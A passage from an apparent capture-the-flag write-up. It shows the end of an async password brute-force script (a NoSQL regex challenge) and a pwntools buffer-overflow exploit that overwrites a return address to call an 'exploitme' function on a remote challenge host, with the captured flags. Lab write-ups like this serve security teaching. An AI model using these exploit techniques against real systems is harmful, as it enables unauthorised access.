 ```py
                    asyncio.create_task(
                        fetch(known + c, event)
                    )
                )

            await event.wait()
            known = event.password
            for task in tasks:
                task.cancel()
            print(known)
        print()


if __name__ == "__main__":
    asyncio.run(main())
```

Flag: `CTFnosqlregexking`

# Buffer Overflow

## SecureApp PWN (20 points)

> The developers of SecureApp aren't too secure with their C programs. I was able to cause a **segmentation fault** error somehow and analysing the functions shows there is a very interesting one called `exploitme`.
> 
> **Can you exploit the buffer overflow vulnerability and execute the `exploitme` function?**

Recall that function call stack frames are laid out in the following order: local variables, *the address to return to when the function finishes execution*, then the function's parameters.

We are supposed to buffer overflow the return address in order to jump to the exploitme function:

```py
from pwn import remote, ELF, p64


(io := remote("cits4projtg.cybernemosyne.xyz", 1002)).recvuntil(b"Password: ")
io.send(b"\n")
io.recvuntil(b"Name: ")
io.sendline(b"A" * 120 + p64(ELF("./secureapp").symbols['exploitme'])) # Offset known from disassembly
print(io.recvall().decode())
io.close()
```

Flag: `CTF{pwN3D_uR_w3aK_C_aPpLiC4sHon!11!}`

# Cryptography
